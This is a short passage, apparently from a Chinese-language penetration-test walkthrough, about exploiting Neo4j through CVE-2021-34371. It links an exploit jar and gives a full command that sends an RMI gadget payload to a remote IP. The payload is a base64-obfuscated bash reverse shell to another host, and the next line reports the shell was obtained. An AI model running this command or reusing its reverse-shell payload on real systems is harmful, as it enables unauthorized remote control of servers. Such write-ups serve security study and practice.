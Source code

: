 [![](assets/1706513339-c036b4f2224f99bae74895cddbc360e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231557-23725026-bdf0-1.png)

Neo4j 漏洞利用[GitHub - zwjjustdoit/CVE-2021-34371.jar: CVE-2021-34371.jar](https://github.com/zwjjustdoit/CVE-2021-34371.jar)

```plain
java -jar .\rhino_gadget.jar rmi://39.99.128.12:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}"
```

拿到 shell

[![](assets/1706513339-1a2b5e3628bc5d386c821a4277fdf767.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231606-283ee984-bdf0-1.png)
